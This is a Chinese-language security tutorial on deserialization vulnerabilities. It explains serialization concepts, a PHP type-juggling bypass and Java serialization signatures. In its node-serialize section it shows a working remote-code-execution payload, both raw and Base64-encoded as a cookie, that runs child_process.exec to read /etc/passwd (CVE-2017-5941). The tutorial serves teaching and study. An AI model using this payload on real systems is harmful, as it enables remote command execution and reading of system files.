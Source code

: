 # 序列化/反序列化攻击

在过去的几年中，通过网络进行的序列化/反序列化攻击变得越来越流行。我们在BlackHat上看到了许多不同的讨
论，发现Jenkins和Apache Struts2等常见应用程序中的关键漏洞，并且正在开发像ysoserial这样工具的大量
活跃研究。



## 什么是序列化与反序列化

序列化是指把对象转换为字节序列的过程，而反序列化是指把字节序列恢复为对象的过程，序列化和反序列化便于跨平台存储和网络传输：

- **序列化**：对象序列化的最主要的用处就是在传递和保存对象的时候，保证对象的完整性和可传递性。序列化是把对象转换成有序字节流，以便在网络上传输或者保存在本地文件中。核心作用是对象状态的保存与重建。
- **反序列化**：客户端从文件中或网络上获得序列化后的对象字节流，根据字节流中所保存的对象状态及描述信息，通过反序列化重建对象。



## 为什么需要序列化与反序列化？

**对象序列化可以实现分布式对象。**

主要应用例如：RMI（即远程调用，Remote Method Invocation）要利用对象序列化运行远程主机上的服务，就像在本地机上运行对象时一样。

**序列化不仅保留一个对象的数据，而且递归保存对象引用的每个对象的数据。**

可以将整个对象层次写入字节流中，可以保存在文件中或在网络连接上传递。利用对象序列化可以进行对象的**"深复制"，即复制对象本身及引用的对象本身**。序列化一个对象可能得到整个对象序列。

**序列化可以将内存中的类写入文件或数据库中。**

比如：将某个类序列化后存为文件，下次读取时只需将文件中的数据反序列化就可以将原先的类还原到内存中。也可以将类序列化为流数据进行传输。

总的来说就是将一个已经实例化的类转成文件存储，下次需要实例化的时候只要反序列化即可将类实例化到内存中并保留序列化时类中的所有变量和状态。

**对象、文件、数据，有许多不同的格式，很难统一传输和保存。**

序列化以后就都是字节流了，无论原来是什么东西，都能变成一样的东西，就可以进行通用的格式传输或保存，传输结束以后，要再次使用，就进行反序列化还原，这样对象还是对象，文件还是文件。



## 反序列化漏洞

### PHP

提到php代码绕过，必然会提起`比较操作符`,下面来谈一谈比较操作符`==`与`===`，这两种都可以比较两个数字的大小，但是有很明显的区别。

| 操作符 | 描述                                   |
| :----- | :------------------------------------- |
| ==     | 把两端变量类型转换成相同的，再进行比较 |
| ===    | 先判断两端变量类型是否相同，再进行比较 |

**注意**：在两个相等的符号中，一个字符串与一个数字相比较时，字符串会转换成数值。

```php
public function process(){
	if ($this->op == "1"){
		$this->write();
	} else if ($this->op == '2'){
		$this->read();
	} else {
	$this->output("Bad Hacker!");
}


function __destruct(){
	if ($this->op === "2")
		this->op = 1;
	$this->content = "";
	$this->process()
}
```

由上面代码可见，判断`op === "2"`时，可以将`"2"`改成数字`2`或`" 2"`来进行比较，这样，op的值就不会被修改为1，而调用`process`函数时，使用的是`==`，那么，就会把类型进行转换，然后得到相同的值，进而实现跳过执行`write`函数而执行`read`函数，执行SQL语句、script脚本等。

### Java

小技巧

* 一段数据以`rO0AB`开头，基本可以确定这串就是JAVA序列化base64加密的数据。

* 或者如果以`aced`开头，那么他就是这一段java序列化的16进制。

Java中API实现

* Java.io.ObjectOutputSteam
* Java.io.ObjectInputSteam

序列化：ObjectOutputSteam类 --> writeObject()

> 该方法对参数指定的obj对象进行序列化，把字节序列写道一个目标输出流中，按Java的标准约定是给一个.ser扩展名。

反序列化：

ObjectInputSteam --> readObject()

> 该方法从一个源输入流中读取字节序列，再把它们反序列化为一个对象，并将其返回。

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/huanJava%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96.png)

### [代码样例](https://github.com/luin/serialize/search?utf8=%E2%9C%93&q=eval&type)

```
        } else if(typeof obj[key] === 'string') {
          if(obj[key].indexOf(FUNCFLAG) === 0) {
            obj[key] = eval('(' + obj[key].substring(FUNCFLAG.length) + ')');
```

构造序列化的payload，它将被反序列化。

```
{“thp”:“_$$ND_FUNC$$_function (){require(‘child_process’).exec(‘DO SYSTEM COMMANDS HERE’,
function(error, stdout, stderr) { console.log(stdout) });}()”}
```

上面序列化对象将通过类似于以下的请求方式`(){require('child_process').exec('ls')}`，进入unserialize函数中的eval语句，为我们提供远程代码执行。

> **立即调用函数表达式**
>
> 立即调用的函数表达式可以用多种不同的方式编写。一个[常见的约定](https://en.wikipedia.org/wiki/Coding_conventions)是将函数表达式 - 以及可选的调用运算符 - 用分组运算符括在括号中，以明确告诉解析器期待一个表达式。否则，在大多数情况下，当解析器遇到`function`关键字时，它会将其视为函数声明（语句），而不是函数表达式。
>
> ```
> ( function  ()  {  /* ... */  })(); 
> ( function  ()  {  /* ... */  }()); 
> (()  =>  {  /* ... */  })();  // 使用 ES6 箭头函数（尽管括号只允许在外部使用）
> ```
>
> There are other ways to enforce a function expression:
>
> ```
> !function () { /* ... */ }();
> ~function () { /* ... */ }();
> -function () { /* ... */ }();
> +function () { /* ... */ }();
> void function () { /* ... */ }();
> ```
>
> In contexts where an expression is expected, wrapping in parentheses is not necessary:
>
> ```
> var f = function () { /* ... */ }();
> true && function () { /* ... */ }();
> 0, function () { /* ... */ }();
> ```
>
> Passing variables into the scope is done as follows:
>
> ```
> (function(a, b) { /* ... */ })("hello", "world");
> ```
>
> ```
> a = b + c
> ;(function () {
>   // code
> })();
> ```
>
> 参考链接1：[Immediately invoked function expression](https://en.wikipedia.org/wiki/Immediately_invoked_function_expression)
>
> 参考链接2：[CVE-2017-5941](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5941)

## 演示

对该网页抓包分析，获取到cookie，拿到cookie做进一步的分析

```
donotdecodeme=eyJtb2R1bGUiOiJub2RlLXNlcmlhbGl6ZSJ9
```

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/xntz/20210830140855.png)

对其进行Base64解码之后，可以大胆猜测后台是使用了`node-serialize`的序列化组件，根据上面的代码示例，我们再次猜测其存在漏洞。

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/xntz/20210830141153.png)

### 创建payload

```
{"thp":"_$$ND_FUNC$$_function(){require('child_process').exec('cat /etc/passwd', function(error, stdout, stderr) { console.log(stdout) });}()"}
```

由于cookie是被编码的，那么我们的payload也需要进行Base64编码，编码后去查看结果，果然我们的命令已经是成功执行了。

```
eyJ0aHAiOiJfJCRORF9GVU5DJCRfZnVuY3Rpb24oKXtyZXF1aXJlKCdjaGlsZF9wcm9jZXNzJykuZXhlYygnY2F0IC9ldGMvcGFzc3dkJywgZnVuY3Rpb24oZXJyb3IsIHN0ZG91dCwgc3RkZXJyKSB7IGNvbnNvbGUubG9nKHN0ZG91dCkgfSk7fSgpIn0=
```

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/xntz/20210830143745.png)

在该示例中，我们利用了函数表达式来远程执行命令，虽然我们没有直接看到该结果，但是既然能执行命令，那么我们完全可以将执行命令的结果保存成文本并发送到我们可以登录的服务器上。



## 参考链接

* [JAVA反序列化漏洞完整过程分析与调试](https://wooyun.js.org/drops/JAVA%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E5%AE%8C%E6%95%B4%E8%BF%87%E7%A8%8B%E5%88%86%E6%9E%90%E4%B8%8E%E8%B0%83%E8%AF%95.html)

* [Java序列化与反序列化三连问：是什么？为什么要？如何做？](https://www.huaweicloud.com/articles/d220bfed560c2750630007368a443633.html)

* [最通俗易懂的PHP反序列化原理分析](https://www.freebuf.com/articles/web/167721.html)
* [CTF PHP反序列化](https://www.cnblogs.com/20175211lyz/p/11403397.html)

